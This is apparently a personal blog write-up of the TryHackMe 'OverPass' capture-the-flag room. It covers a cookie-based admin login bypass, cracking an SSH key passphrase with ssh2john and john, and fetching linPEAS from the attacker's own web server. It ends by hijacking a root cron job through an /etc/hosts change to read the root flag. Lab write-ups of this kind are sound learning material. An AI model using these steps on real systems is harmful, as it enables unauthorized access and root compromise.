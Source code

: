 ```yaml
---
layout: post
title: "OverPass"
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe"
---
```


# OverPass
*What happens when some broke CompSci students make a password manager?*

tool used: **Nmap**, **Gobuster**, **Burp**, **ssh2John**, **john**, **linPEAS**

After running Nmap scan I opened the browser searching the machine's IP address. This lands me up to a homepage website and found two directory: **About me** and **download** page. I checked the source of the homepage but i found nothing interesting.

### Gobuster

Since nothing really stuck out i decided to use gobuster to check if there are other directories. I used common wordlist from dirb as the wordlist. After running gobuster i find the **/admin** directory, it was an admin login page i tried the default admin username and password but it did not work


```bash
#Gobuster Command:

gobuster dir -u <url> -w <wordlist>

```

### Burp Intruder
I will be attempting to use Burp intruder to automate the brute forcing of the admin login. I have never used Burp Intruder so this will be a new experience for me.

Reading through the login.js i see that it reads the status of the cookie. If the cookie shows *incorrect credentials* it wont login but if the cookie is set to be Session Token it will allow me to login. Meaning that Bruteforcing might not be needed to bypass the login. Because of the *IF statement* if i changed the cookie to anything but 'incorrect credentials' i will be able to bypass the login.

![Login JaveScript](/images/loginOverpass.png)

 I went back to the browser opened the inspect so i can use the console there to set the cookie as 'AtomicScript' and After refreshing the page i get a private key that i believe needs to be decrypted.

 ```js
 //javascript setting cookie:

 Cookies.set("SessionToken",'AtomicScript')

 ```

### John

After refreshing the page I landed into a page that had a private RSA key of someone named James. In order for me to crack the private key I need to do the following:
1. use ssh2john to get the hash of the private key
2. use John to crack the hash with a rockyou wordlist  

I copied the Private RSA key into a file in my directory so i can use ssh2john with the following command:
'''

'''

```bash
# Used ssh2John to get the hash

python ssh2john.py id_rsa > id_rsa.hash

```

```bash
# Used John to get the password from the hash

sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt

```
>[Using JOHN & SSH2JOHN to crack a id_rsa private key](https://m0053sec.wordpress.com/2020/02/08/using-john-ssh2john-to-crack-a-id_rsa-private-key/)


### SSH
with that I found the password! I went back to the admin page and tried it with the username James but it say incorrect credential. I was hoping it would work. I used the below command to ssh with the id_rsa I found and passed the password as the phrase.

```bash
# SSH as james

ssh -i id_rsa james@[ip-address]

```

## Privilege escalation
Now that I logged in as a normal I need to escalate my privilege to fully complete the challenge. I found two files one containing the first key and the second contains a to do list, it mentions that a password is in the password manager. I dont have access to tryhackme home directory sadly.

### [LinPeas](https://blog.cyberethical.me/linpeas)

linPEAS performs Privilege escalation in the victim machine, and I wanted to try it to escalate my Privilege and learn on how the script work.

1. Downloaded the script file in the directory I was working on
2. Used python to host a web server
3. Used the Terminal with the remote connection to the machine to download the script in the **TMP** Directory. Any directory wont work it will show as bad permission.
4. Made sure that the script has the permission to execute and ran it.



#### Downloading the script file only

```bash
# Downloading the linpeas script file

wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -O linpeas.sh

```

#### Hosting with python

```bash
# Hosting the http server using python3

python3 -m http.server

```


#### downloading the script.
```bash
# Downloading the linpeas script from my hosted server

wget http://[myip]:[port]/linpeas.sh

```

I used a [guide](https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1) to understand what is needed to look for and what is needed done to gain access to the root or to find the flag.

#### CronTab

The trick was in the cron tab. The Crontab curls the buildscript.sh from the overpass.thm and sends the result to the bash as the root. From my understanding if I got access to editing the buildscript and the crontab runs it as root I would technically have access to anything as root.

I used the command cat /etc/hosts to find out about the overpass.thm. It was there with the local host now if i modified the ip address associated with the overpass.thm and changed it to be my own ip address, then the machine would think Im overpass.thm.

```bash
# Find out who is overpass.thm

cat /etc/hosts

```

The only problem now is that it would be looking for the buildscript.sh in my own machine and it wont find it. I created the script with the command *cat /root/root.txt > /tmp/flag*. Now i went back to the ssh connection and created the flag file since that does not exists. I went back and hosted the http server in the parent directory of the download/src and waited for the cron to do its job. After getting the *200* status I checked the flag file and it worked!
